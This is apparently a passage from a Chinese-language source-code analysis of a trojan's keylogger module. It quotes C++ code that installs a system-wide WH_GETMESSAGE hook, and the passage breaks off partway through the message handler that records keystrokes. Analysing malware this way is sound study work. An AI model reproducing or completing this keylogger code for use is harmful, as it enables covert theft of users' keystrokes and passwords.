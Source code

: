 ```
    }
    else
    {
        //		CloseHandle(CreateFile( strKeyboardOfflineRecord, GENERIC_WRITE, FILE_SHARE_WRITE, NULL,CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL));
        //		g_bSignalHook = true;
        int i = 0;
        g_bSignalHook = i;
    }
    //		g_bSignalHook = false;

    while (1)
    {
        while (g_bSignalHook == 0)
        {
            Sleep(100);
        }
        CKeyboardManager::StartHook();
        while (g_bSignalHook == 1)
        {
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            Sleep(100);
        }
        CKeyboardManager::StopHook();
    }

    return 0;
}
```

其核心的代码是安装一个类型为 **WH_GETMESSAGE** 的Windows Hook （钩子） 的 **CKeyboardManager::StartHook()**：

```
//KeyboardManager.cpp 313行
bool CKeyboardManager::StartHook()
{
    //...无关代码省略...
    m_pTShared->hGetMsgHook = SetWindowsHookEx(WH_GETMESSAGE, GetMsgProc, g_hInstance, 0);
    //...无关代码省略

    return true;
}

```

**WH_GETMESSAGE** 类型的钩子会截获钩子所在系统上的所有使用 **GetMessage** 或 **PeekMessage** API 从消息队列中取消息的程序的消息。拿到消息后，对消息的处理放在 **GetMsgProc** 函数中：

```
//KeyboardManager.cpp 167行
LRESULT CALLBACK CKeyboardManager::GetMsgProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    TCHAR szModule[MAX_PATH];

    MSG*	pMsg;
    TCHAR	strChar[2];
    TCHAR	KeyName[20];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    LRESULT result = CallNextHookEx(m_pTShared->hGetMsgHook, nCode, wParam, lParam);
    CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);

    pMsg = (MSG*)(lParam);
    // 防止消息重复产生记录重复，以pMsg->time判断
    if (
        (nCode != HC_ACTION) ||
```
